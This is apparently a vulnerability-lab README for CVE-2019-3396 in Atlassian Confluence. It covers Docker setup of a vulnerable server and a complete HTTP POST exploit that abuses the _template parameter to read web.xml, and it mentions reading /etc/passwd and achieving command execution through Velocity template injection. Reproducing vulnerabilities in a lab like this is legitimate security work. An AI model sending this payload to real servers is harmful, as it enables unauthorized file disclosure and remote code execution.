 # Atlassian Confluence Path Traversal and Command Execution Vulnerability (CVE-2019-3396)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian:

![](1.png)

Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.

![](4.png)

You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:

![](5.png)

## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![](6.png)

Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://...` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):

![](7.png)
